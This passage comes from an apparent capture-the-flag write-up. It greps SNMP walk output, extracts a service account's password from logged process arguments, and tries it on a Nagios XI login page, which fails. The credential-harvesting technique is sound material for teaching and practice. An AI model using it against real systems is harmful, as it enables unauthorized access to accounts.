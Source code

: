 The output is huge and contains lots of information. After it finishes, we can use `grep` on `snmpwalk.txt` file to see
if we can find anything useful at all:

```bash
$ cat snmpwalk.txt | grep password
$ cat snmpwalk.txt | grep username
$ cat snmpwalk.txt | grep user
HOST-RESOURCES-MIB::hrSWRunParameters.840 = STRING: "-q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 7878 -u shellinabox -g shellinabox --user-css Black on Whit"
HOST-RESOURCES-MIB::hrSWRunParameters.842 = STRING: "-q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 7878 -u shellinabox -g shellinabox --user-css Black on Whit"
HOST-RESOURCES-MIB::hrSWInstalledName.1 = STRING: "adduser_3.118+deb11u1_all"
HOST-RESOURCES-MIB::hrSWInstalledName.812 = STRING: "xdg-user-dirs_0.17-2_amd64"
```

The lines in the `| grep user` command show parameters for a running service or process. In this case, they seem to be related to shellinabox, a web-based terminal emulator. We can try to identify shell usage by greping `/bin/bash`:

```bash
$ cat snmpwalk.txt | grep /bin/bash
HOST-RESOURCES-MIB::hrSWRunPath.1383 = STRING: "/bin/bash"
HOST-RESOURCES-MIB::hrSWRunParameters.588 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB "
HOST-RESOURCES-MIB::hrSWRunParameters.1382 = STRING: "-u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"
```

We can see that the STRING parameter seems to be setting a user `svc` to run the command `check_host.sh` passing the username `svc` and what it seems to be a password `XjH7VCehowpR1xZB`. We can try to login with these credentials at `/nagiosxi/login.php` 
web service endpoint, but this will give

<img src="../figs/monitored3.png" alt="failed login attempt">
